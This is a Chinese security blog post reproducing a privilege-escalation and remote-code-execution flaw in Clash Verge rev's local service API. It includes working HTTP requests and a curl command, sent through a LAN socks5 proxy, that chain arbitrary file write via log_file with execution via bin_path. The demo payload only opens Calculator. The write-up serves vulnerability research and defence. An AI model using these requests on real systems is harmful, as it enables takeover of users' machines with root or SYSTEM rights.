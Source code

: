 #  Clash Verge 提取漏洞分析与复现   
原创 Garck3h  pentest   2025-04-29 06:49  
  
## 免责声明  
  
文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。  
## 前言  
  
前两天看到了其它公众号发的一个漏洞预警：“Clash Verge rev存在提权漏洞，在Mac、Linux和Windows都能进行提权，Mac和Linux下能提权到root，Windows下可以提权到SYSTEM” 。因为自己有时候也在用这个工具，所以打算研究一下这个漏洞。  
## 复现过程  
  
在GitHub查看相关的issues  
```
https://github.com/clash-verge-rev/clash-verge-rev/issues/3428
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msO5WqlDnIXP38KYYh8on16qDEClchibwxa1vQrcP5Bf5TvsAcHRDeUYNg/640?wx_fmt=png&from=appmsg "")  
  
通过查看这个issues中各位大佬的聊天大概了解了该漏洞，并且漏洞存在的接口大致为：https://127.0.0.1:33211/start_clash  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOAhHY6Mf3PHdcv7jVAicucaib4NYnr4jEBCHKNS4TrHnb3yOcgicElpD5w/640?wx_fmt=png&from=appmsg "")  
  
因为只知道是访问这个接口进行漏洞利用，我们来访问一下，发现请求方法不对。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOJiciaxF4FyN1AMeHg2A086H3Vo30NibibWBEoZPecoo4NiaUf8WmQswGibEQ/640?wx_fmt=png&from=appmsg "")  
  
在burp进行POST请求，会提示我请求体中缺少：“bin_path”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msO8o9kicyPz7O4pbK4cCwTRARrcMOLgE5leRVb34WlibebFv4ibX5rEPZUA/640?wx_fmt=png&from=appmsg "")  
  
根据提示一步步修改数据包后得到了完整的请求体，这时候报错：没有这样的文件或目录  
```
POST /start_clash HTTP/1.1Host: 127.0.0.1:33211Content-Type: application/jsonContent-Length: 84{  "bin_path": "",  "config_dir": "",  "config_file": "",  "log_file": ""}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOafiaKwvs1LRwXibh4Tia8kg2Zdxibiak0gwqo6U9x9ibxOa1zB7icv2bHjw7A/640?wx_fmt=png&from=appmsg "")  
  
开始对各个参数赋值，经过多次赋值请求后发现还是报错  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOfl5YbOFm5uxBrVDS3rJ68vAibQHbE0jiaic0lNyzl8h2eoYicdtV577wDQ/640?wx_fmt=png&from=appmsg "")  
  
于是下载源码进行分析  
```
https://github.com/clash-verge-rev/clash-verge-rev
```  
  
直接打开源码后搜索：/start_clash ，定位到了文件：src-tauri/src/core/service.rs  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOSatVh51Z3wdbDmHcPsSnmm4LwFWXextxB1morhmLVL1MAtNhZzeJIg/640?wx_fmt=png&from=appmsg "")  
  
大致分析一下知道服务进程会根据 bin_path  
 的路径值：  
- 启动指定的 Clash 核心（如 verge-mihomo  
、clash-premium  
 等）  
  
- 通过子进程方式运行该二进制文件  
  
- 将配置文件（config_file  
）和日志（log_file  
）传递给该进程  
  
所以说这个二进制文件是目标上必须存在的；于是我直接把计算器的绝对路径丢给它进行请求，执行成功  
```
/System/Applications/Calculator.app/Contents/MacOS/Calculator
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOs0PFibZCpbOkKJfgB8kcLWMVl2qsQ1Bg534HozAGk2dNg4AJ1iaCaEyA/640?wx_fmt=png&from=appmsg "")  
  
  
尝试拼接来执行其它命令，发现无果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOicDQ79jRg7ibtQXmCzia7Smfic012I93vnlujKOwOuEYiaO6icDUMHTjUhjg/640?wx_fmt=png&from=appmsg "")  
  
从代码中可以看到使用的是StdCommand::new执行，可规避命令注入。所以我们使用“||”或者";"拼接的命令都无法执行成功，会被当成一个文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msObSPbLwIfw9s1bccD98HpqZfGJB0QbZvic7LhfcAcTtwNyuib2vZ1ysVA/640?wx_fmt=png&from=appmsg "")  
  
既然直接命令注入的方式不可行，那就试试写日志的方式，然后再通过bin_path加载我们的文件执行就好了  
```
bin_path //这个的参数，随意写，主要是目标上存在的就行log_file //这里我把日志文件写到了tmp目录
```  
  
执行成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOZiaCEYdAwzqAysHWs6euHfUkQmjOiaXAhmlJXrDJpq0vcYdGzO0mBzTQ/640?wx_fmt=png&from=appmsg "")  
  
但是很遗憾log_file文件：rce1.sh虽然创建了，但是它没有执行的权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOk6KRofjekuuPLmGgd612Gbx3Hn6PQII9LZfqVn9hga6mTvt6FiaCfwg/640?wx_fmt=png&from=appmsg "")  
  
同时观察到了我们的日志文件的内容是我们刚才请求包的bin_path值的内容，被记录下来了，-d和-f应该是另外两个参数的，下面我们验证一下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msO9cODccqGA4pBemibtog8WVJx7F7fqyNEibRnu7HS4WG9F8My4XOnq57Q/640?wx_fmt=png&from=appmsg "")  
  
果然符合预期，这个log_file就是把这次请求给记录下来，并且覆盖到我们指定的文件中（这里是：/tmp/rce1.sh）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOknKxGB2j1M87yHicVbb8KOqSRseSAQK2ocbKFw4b5PCJ50KFCqePudw/640?wx_fmt=png&from=appmsg "")  
  
现在顶多是存在"任意文件创建"和"任意文件写入"的风险，还没造成真正意义上的RCE。既然log_file的位置可以自定义，而且还可以把内容覆盖成我们自定义的内容，那么我们只需要知道目标系统中一个拥有执行权限的文件就可以通过log_file指定它，然后构造特殊请求包给这个log_file写入要执行的命令，最后再通过bin_path加载即可执行我们想要执行的命令。  
  
而且这类的文件应该很多，直接问一下AI即可列出很多。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOQbMZUUmOm4UyWWKCexG1bLIchOsYaTw0gYep83S4Tc8bHoia3z95cqA/640?wx_fmt=png&from=appmsg "")  
  
这里我直接自己手工创建了一个名称为：“clashrce”的文件，并且放在tmp目录下给予执行权限。假设它就是我们在目标系统中找到的可执行文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msO8Bzx2OyqngZ3tlRG56Dg7ggh1ALAKCwQcf3YcfM2xtnCq1DHOtBZBA/640?wx_fmt=png&from=appmsg "")  
  
构造请求包  
```
POST /start_clash HTTP/1.1Host: 127.0.0.1:33211Content-Type: application/jsonContent-Length: 233{  "bin_path": "/tmp/clashrce",  "config_dir": "\n#!/bin/bash\necho \"#!/bin/bash\nopen -a Calculator\" > /tmp/rce0429.sh && chmod +x /tmp/rce0429.sh && /tmp/rce0429.sh\n#",  "config_file": "",  "log_file": "/tmp/clashrce"}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOz2ia8HNFOrfUH7wOsDYCjsNJxo1FbUyTykU4nkibdsbUbtf4YptXibzUQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行了；我们执行的日志被写入到了指定的文件clashrce，并且发现也会执行一次clashrce，所以执行一次我们的文件就被创建了：rce0429.sh。（  
如果想偷懒，也可以直接在config_dir中输入直接指定的命令，不需要创建额外文件。）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msONzUECtX3bFsmiaqia4oRQjtGMibicQ6Rwaic9IKaCs78viaeUiahpQIOqpxVQ/640?wx_fmt=png&from=appmsg "")  
  
最后在bin_path直接执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOXFoDgH1O9r9uggNMrCxtPdGb1wQVYezfYNpvMSdpEWFMIntWCib2UZg/640?wx_fmt=png&from=appmsg "")  
  
通过上面的分析，我们发现这个服务是通过127.0.0.1访问的，是不是攻击者就无法利用了？而且在代码里面这个地址也是写死的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOfoacqicndVib6LBIEBEpSia9t14SNzxjMkpgB8Bf7lNeDEbFicUuxB53nQ/640?wx_fmt=png&from=appmsg "")  
  
但是如果你开启了局域网访问，别的设备就可以通过socks5访问到目标的127.0.0.1，从而就可以进行攻击了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOTfE6nV7qqNVzfKHmxyJWc9qngIrdC7Sx1OkDZEBfbfib4uxUBiaXCU1A/640?wx_fmt=png&from=appmsg "")  
```
curl -x socks5://192.168.3.52:7897 -X POST "http://127.0.0.1:33211/start_clash" \-H "Content-Type: application/json" \-d '{  "bin_path": "/tmp/clashrce",  "config_dir": "\nopen -a Calculator",  "config_file": "",  "log_file": "/tmp/clashrce"}'
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msO9ERa69Qkve7RtYicX9XcCRxQiaibU8KQKTIBAmcL0R0KQsIZJyhibkCiaIA/640?wx_fmt=png&from=appmsg "")  
  
二次攻击的时候发现失败，应该是代理被打崩了，需要重启Clash Verge  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/u3BDsxBAuibUMLDoARLhkfqGajIF47msOdGEFlGf7pxtp58EGunp5kvj3Pia6uDhJc4820tlWYR50IU80ISVtMRA/640?wx_fmt=png&from=appmsg "")  
  
## 总结  
  
本次对 **Clash Verge rev 提权漏洞**  
的复现与分析，认识到一个本地服务接口设计不当所引发的严重后果。虽然漏洞本身需要能够访问 127.0.0.1，但如果目标用户开启了局域网访问，攻击者就可以通过代理等方式远程利用，从而实现提权甚至RCE。  
  
整个漏洞的本质是：  
- **log_file 参数存在任意文件写入风险**  
  
- **bin_path 参数可加载并执行本地已有文件**  
  
- **配合 config_dir 参数，可以灵活植入任意脚本内容**  
  
最终通过创造条件、间接把提取漏洞变成 了RCE；但前提条件是，攻击路径的关键依赖于目标环境是否存在具有可执行权限的文件、以及网络访问策略配置（开启局域网连接）。  
  
安全建议：  
- **严格限制本地服务的监听范围**  
，禁用不必要的局域网访问。  
  
最后再次声明，本篇内容仅供安全学习与研究使用，禁止用于非法用途，因使用本文信息带来的任何法律后果，由使用者自行承担，作者概不负责。  
  
